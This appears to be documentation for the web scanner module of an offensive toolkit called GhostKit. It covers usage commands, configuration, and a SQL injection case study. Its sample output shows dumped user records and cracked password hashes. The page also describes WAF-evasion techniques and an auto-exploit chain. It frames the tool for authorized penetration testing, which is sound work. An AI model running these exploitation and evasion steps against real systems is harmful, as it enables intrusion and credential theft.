

Web Vulnerability Scanner

"The web is a sea of vulnerabilities, waiting to be discovered" — GhostKit Red Team
Module Overview
The Web Vulnerability Scanner is GhostKit's comprehensive suite for identifying and exploiting web application vulnerabilities. Built with advanced detection engines and evasion techniques, it delivers professional-grade reconnaissance and exploitation capabilities.
Core Capabilities
- Crawling & Discovery - Intelligent content discovery beyond basic spidering
- Authentication Bypass - Multiple techniques to circumvent login mechanisms
- Injection Detection - Advanced payload generation for SQL, NoSQL, Command, and more
- XSS Analysis - Context-aware Cross-Site Scripting detection
- Business Logic Flaws - Identification of application-specific vulnerabilities
- Evasion Techniques - WAF/IDS bypass methods to prevent detection
Technical Architecture
The Web Scanner employs a multi-stage pipeline architecture:
flowchart TD
A[Target Input] --> B[Configuration & Setup]
B --> C[Reconnaissance Phase]
C --> D[Vulnerability Analysis]
D --> E[Exploitation Attempt]
E --> F[Result Processing]
subgraph "Reconnaissance Phase"
C1[Content Discovery]
C2[Technology Fingerprinting]
C3[Parameter Analysis]
C4[Authentication Mapping]
end
subgraph "Vulnerability Analysis"
D1[Injection Points Identification]
D2[Input Validation Testing]
D3[Authentication Control Testing]
D4[Session Management Testing]
D5[Access Control Testing]
end
C --> C1
C --> C2
C --> C3
C --> C4
D --> D1
D --> D2
D --> D3
D --> D4
D --> D5OWASP Top 10 Coverage
| Vulnerability Category | Detection Methods | Exploitation Capabilities |
|---|---|---|
| Injection (SQL, NoSQL, OS) | Pattern matching, Error analysis, Time-based detection | Automated exploitation, Custom payload generation |
| Broken Authentication | Credential stuffing detection, Session analysis | Session hijacking, Authentication bypass |
| Sensitive Data Exposure | Pattern matching, Information disclosure testing | Data extraction, Encryption analysis |
| XML External Entities | DTD detection, Blind OOB testing | XXE payload generation, Exfiltration techniques |
| Broken Access Control | Horizontal/Vertical privilege testing | Privilege escalation, Access control bypass |
| Security Misconfiguration | Header analysis, Default credential testing | Configuration exploitation |
| Cross-Site Scripting | Context-aware payload testing, DOM analysis | XSS payload generation, Cookie theft demonstrations |
| Insecure Deserialization | Fingerprinting vulnerable libraries, Pattern matching | Deserialization exploit generation |
| Using Components with Known Vulnerabilities | Version fingerprinting, CVE matching | Integration with exploit database |
| Insufficient Logging & Monitoring | Testing log poisoning, Tamper detection | Anti-forensics techniques, Log bypass |
Basic Usage
# Basic web scan of a target
python ghostkit.py -m web_scanner -u https://example.com
# Authenticated scan with credentials
python ghostkit.py -m web_scanner -u https://example.com --auth-type form --username admin --password password123
# Full aggressive scan with all modules
python ghostkit.py -m web_scanner -u https://example.com --full-scan --aggressive
# Targeted scan for specific vulnerabilities
python ghostkit.py -m web_scanner -u https://example.com --modules sqli,xss,ssrf
# Scan with custom headers (e.g., for API testing)
python ghostkit.py -m web_scanner -u https://example.com/api --header "Authorization: Bearer token123" --header "Content-Type: application/json"
Advanced Configuration
The web scanner can be fine-tuned through a YAML configuration file:
# web_scanner_config.yaml
target:
url: https://example.com
scope:
include_paths:
- /admin
- /api
exclude_paths:
- /static
- /logout
authentication:
type: form
login_url: https://example.com/login
username_field: user
password_field: pass
credentials:
username: admin
password: password123
success_check: "Welcome, admin"
scanning:
threads: 10
request_delay: 0.5
timeout: 30
user_agent: "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36"
cookies: "session=xyz123; language=en"
follow_redirects: true
max_depth: 5
modules:
enabled:
- sql_injection
- xss
- csrf
- ssrf
- path_traversal
disabled:
- xxe
- insecure_deserialization
sql_injection:
detection_techniques:
- error_based
- boolean_based
- time_based
test_parameters: true
test_headers: true
test_cookies: true
reporting:
format: json
include_evidence: true
include_request_response: true
risk_threshold: medium
To use this configuration:
Case Study: Exploiting SQL Injection
This example demonstrates the full workflow of discovering and exploiting an SQL injection vulnerability:
1. Initial Discovery
Output:
[+] GhostKit v3.1.4 initializing...
[+] Loading web_scanner module with SQL injection detection
[+] Crawling target website...
[+] Discovered 42 unique URLs and 17 forms
[+] Testing parameters for SQL injection vulnerabilities
[!] HIGH: Potential SQL injection found in parameter 'id' at https://vulnerable-webapp.com/product.php?id=1
[!] Evidence: Parameter 'id' with payload "1' OR '1'='1" returned different content
[+] Testing injection points...
[!] Confirmed SQL injection vulnerability in parameter 'id'
[+] Database type identified: MySQL 5.7
[+] Scan complete. Found 1 SQL injection vulnerability.
[+] Results saved to reports/sqli_scan_vulnerable-webapp.com_20250530.json
2. Exploitation
After confirming the vulnerability, we can exploit it to extract data:
python ghostkit.py -m sql_exploiter -u https://vulnerable-webapp.com/product.php --parameter id --technique union
Output:
[+] GhostKit v3.1.4 initializing...
[+] Loading sql_exploiter module
[+] Testing injection point: parameter 'id'
[+] Determining number of columns... Found: 6
[+] Finding injectable column(s)... Found column(s): 2
[+] Extracting database information:
[*] Database version: MySQL 5.7.35
[*] Current database: shopdb
[*] Current user: shopdb_user@localhost
[+] Available databases:
[*] information_schema
[*] mysql
[*] performance_schema
[*] shopdb
[*] sys
[+] Tables in database 'shopdb':
[*] categories
[*] customers
[*] orders
[*] products
[*] users
[+] Columns in table 'users':
[*] id (int)
[*] username (varchar)
[*] password (varchar)
[*] email (varchar)
[*] role (varchar)
[+] Extracting sample data from users table:
[*] admin | 5f4dcc3b5aa765d61d8327deb882cf99 | admin@example.com | administrator
[*] john | 482c811da5d5b4bc6d497ffa98491e38 | john@example.com | customer
[*] maria | 5f4dcc3b5aa765d61d8327deb882cf99 | maria@example.com | manager
[+] Exploitation complete. Results saved to reports/sql_exploitation_vulnerable-webapp.com_20250530.json
3. Post-Exploitation
With extracted credentials, we can now attempt lateral movement:
Output:
[+] GhostKit v3.1.4 initializing...
[+] Loading password_cracker module
[+] Hash type confirmed: MD5
[+] Running dictionary attack...
[+] CRACKED! Hash: 5f4dcc3b5aa765d61d8327deb882cf99 = "password"
[+] Cracking complete in 3.2 seconds
Evasion Techniques
GhostKit's web scanner implements multiple evasion techniques to avoid detection:
WAF Bypass Methods
-
Payload Obfuscation
-
Request Distribution
-
Header Randomization
user_agents = [ "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36", "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/605.1.15", # More user agents... ] headers = { "User-Agent": random.choice(user_agents), "Accept-Language": random.choice(["en-US", "en-GB", "fr-FR", "de-DE"]), # More headers... }
Integration with Other Modules
The web scanner integrates seamlessly with other GhostKit modules:
- Network Scanner → Web Scanner → Exploit Engine
- Web Scanner → Credential Harvesting → Brute Force
- Web Scanner → API Analyzer → Data Exfiltration
Example integration workflow:
# Network scan to identify web servers
python ghostkit.py -m network_scanner -t 192.168.1.0/24 --service-detection
# Web scan on discovered web servers
python ghostkit.py -m web_scanner --from-file reports/network_scan_*.json --modules discovery,vuln
# Exploit discovered vulnerabilities
python ghostkit.py -m exploit_engine --from-file reports/web_scan_*.json --auto-exploit
Reporting
Web scanner results include comprehensive reporting:
# Generate an HTML report
python ghostkit.py --report-from reports/web_scan_*.json --format html --output webapp_vulnerabilities.html
# Generate a penetration testing report
python ghostkit.py --report-from reports/web_scan_*.json --format pdf --template pentest --output client_report.pdf
Example report includes:
- Executive summary
- Methodology
- Vulnerability findings with severity ratings
- Proof of concept details
- Remediation recommendations
- Technical appendices
Best Practices
For effective web application testing:
- Obtain proper authorization before scanning any target
- Start with passive reconnaissance before active scanning
- Use authenticated scans when possible for better coverage
- Limit scan scope to prevent unintended impact
- Verify findings manually to eliminate false positives
- Document all activities for proper reporting
- Follow responsible disclosure if vulnerabilities are found
MITRE ATT&CK Mapping
| Technique ID | Technique Name | GhostKit Module |
|---|---|---|
| T1590 | Gather Victim Network Information | web_crawler |
| T1591 | Gather Victim Org Information | osint_module |
| T1595 | Active Scanning | web_scanner |
| T1190 | Exploit Public-Facing Application | sqli_module, xss_module |
| T1133 | External Remote Services | auth_bypass_module |
| T1059 | Command and Scripting Interpreter | command_injection_module |
| T1213 | Data from Web Service | data_extraction_module |
| T1552 | Unsecured Credentials | credential_harvester |
Troubleshooting
| Issue | Possible Cause | Solution |
|---|---|---|
| Connection timeouts | Network latency, firewall | Increase timeout, use proxies |
| False positives | Overly aggressive detection | Adjust sensitivity settings, verify manually |
| WAF blocking | Detection by defense systems | Enable evasion techniques, reduce scan intensity |
| Authentication failures | Session expiration | Configure proper session handling |
| Incomplete crawling | JavaScript-heavy site | Enable headless browser crawling |
For more specific issues, see the Troubleshooting Guide.
References
Last updated: May 30, 2025